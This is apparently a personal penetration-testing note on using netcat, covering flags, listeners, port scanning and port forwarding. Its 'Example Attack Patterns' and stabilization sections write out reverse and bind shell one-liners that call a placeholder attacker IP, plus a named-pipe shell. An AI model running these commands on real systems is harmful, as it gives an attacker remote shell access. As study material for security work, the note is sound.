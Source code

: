 # Using "netcat"

author:: Nathan Acks
date:: 2022-06-29

The netcat binary is *usually* `nc`, but some systems have it at `ncat` or `netcat` instead.

Note that the `-c` and `-e` flags are considered security risks (for obvious reasons!), and are disabled on some systems.

# Start a Client

```bash
nc $HOST $PORT
```

Some versions of netcat support a -e flag that hooks STDIN and STDOUT of an executable to the established network connection. So something like the following will establish a reverse shell:

```bash
nc -e /bin/bash $HOST $PORT
```

# Start a Server

```bash
nc -l -p $PORT $HOST
```

The $HOST specification here is optional; if left off, nc binds to 0.0.0.0.

Note that nc will exit once the first connection closes.

(According to the nc docs, it looks like `nc -l $HOST $PORT` should also work, but it doesn't. I think - though I haven't been able to verify - that what's happening here is that `-p` specifies the port to *listen* to, while the port following the $HOST specification is the port to *connect* to.)

A netcat server doesn't have to be used just for reverse shells. For example, you can also use it to catch web requests in conjunction with XSS or SQLi attacks.

* [XSS (Cross-Site Scripting) Attacks](xss-attacks.md)
* [SQL Injection](sql-injection.md)

# Useful Flags

* `-l` - listen for incoming connections (rather than make an outgoing connection)
* `-v` - verbose
* `-n` - skip DNS resolution (slightly faster, less noisy on the network)
* `-p` - specify the port to *listen* to
* `-u` - connect using UDP instead of TCP
* `-k` - keep listening even after client disconnects

# Example Attack Patterns

Example reverse shell:

* Attacker: `nc -lvnp $LISTENER_PORT`
* Target: `nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash`

Example bind shell:

* Attacker: `nc $TARGET_IP $LISTENER_PORT`
* Target: `nc -lvnp $LISTENER_PORT -e /bin/bash`

These are almost, but not quite, mirror images of each other.

The `-e` switch isn't available on many UNIX-like OSes. Working around this leads to the common named pipe pattern:

```bash
mkfifo /tmp/p; \
nc -lvnp $LISTENER_PORT < /tmp/p | \
	/bin/sh >/tmp/p 2>&1; \
rm /tmp/p
```

(Note that it's also possible to reverse the /bin/sh and nc portions of things; what important is that the named pipe lets us loop I/O between the two applications. See the discussion of msfvenom payloads for a detailed breakdown of this pattern.)

Initial netcat reverse shells (in particular web shells) are non-interactive.

## Shell "Stabilization"

Shell "stabilization" refers to the process of making a remote shell behave like a normal local shell - so, allowing interactive programs to work properly, ensuring that input is not echoed inappropriately, etc. In practice, this generally involves creating a *second* connection from within the "unstable" shell, and then using that (keeping the first connection around just so you can restart the "stabilized" shell if you accidentally exit/kill it).

A common method of stabilizing netcat shells is to use Python:

* Start an instance of bash connected to an actual PTY: `env TERM=xterm python -c 'import pty; pty.spawn("/bin/bash")'`
* Suspend the reverse shell.
* Use `stty raw -echo; fg` to switch to raw keycode transmission (so that things like arrow keys get pushed to our remote shell), turn off terminal echo (to prevent seeing commands twice), and foreground the reverse shell.

Note that the `stty` command can be canceled using `reset` (after closing the reverse shell). Since echo is turned off, typing this won't be visible. Trust the force!

The `rlwrap` package will handle almost all of this for you.

```bash
rlwrap -cAr nc -lvnp $PORT
```

Or just use socat!

NOTE that in *none* of these cases will the reverse shell pick up on your terminal size, so you'll need to manually specify it using `stty rows` and `stty cols`.

* [Using "socat"](socat.md)

# Port Forwarding

```bash
nc -lvnp $INCOMING_PORT -c "nc $TARGET_IP $TARGET_PORT"
```

# Other Uses

## Telnet Replacement

If you just have netcat connect to a service directly, it functions exactly like telnet.

## Port Scanning

With the `-z` option, netcat will attempt to connect to all TCP ports on the targets in a sequential fashion (if no ports are specified; otherwise just to the specified port), reporting which are open. It's like a simple, very slow version of Nmap!

Use `-w` to set the timeout in seconds.

Use `-u` to try connecting over UDP rather than TCP.

* [Using "nmap"](nmap.md)

## Port Forwarding

```bash
nc -lvkp $LOCAL_PORT -c "nc $REMOTE_IP $REMOTE_PORT"
```
